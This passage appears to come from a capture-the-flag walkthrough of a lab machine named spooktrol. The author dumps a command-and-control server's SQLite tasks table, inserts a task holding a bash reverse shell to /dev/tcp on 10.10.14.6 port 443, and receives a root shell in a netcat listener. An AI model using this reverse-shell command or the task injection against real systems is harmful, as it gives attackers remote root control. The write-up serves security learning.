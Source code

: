 The first check is from the spookytrol session, which is reporting running as root. There’s a successful on from me as well, and two more that I changed with Burp so they are pending.

### Task Implant

If the implant on the host is connecting back every two minutes, I’ll create a task for it. `.dump tasks` will give the syntax:

```

sqlite> .dump tasks
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE tasks (
        id INTEGER NOT NULL, 
        target VARCHAR, 
        status INTEGER, 
        task INTEGER, 
        arg1 VARCHAR, 
        arg2 VARCHAR, 
        result VARCHAR, 
        PRIMARY KEY (id)
);
INSERT INTO tasks VALUES(1,'10a6dd5dde6094059db4d23d7710ae12',1,1,'whoami','',X'726f6f740a');
INSERT INTO tasks VALUES(2,'16f55c83d2bb6c1f59aa654da817a256',1,1,'whoami','',X'6f7864660a');
INSERT INTO tasks VALUES(3,'1da79ea0774ee5438910b2d2734e3188',0,1,'whoami','','');
INSERT INTO tasks VALUES(4,'17a831078f79c7c80a2dade8bd2edf50',0,1,'whoami','','');
CREATE INDEX ix_tasks_id ON tasks (id);
COMMIT

```

Now I’ll just add my own:

```

sqlite> INSERT INTO tasks VALUES(5,'10a6dd5dde6094059db4d23d7710ae12',0,1,'bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"','','');

```

I gave it id 5, since 4 was the last used. The session is the one on spookytrol. The status is 0 for incomplete. The type is 1, for execution, and the command is a reverse shell.

After a minute or so, at a waiting `nc`:

```

oxdf@parrot$ nc -lnvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.11.123.
Ncat: Connection from 10.10.11.123:58172.
bash: cannot set terminal process group (16277): Inappropriate ioctl for device
bash: no job control in this shell
root@spooktrol:~# 

```
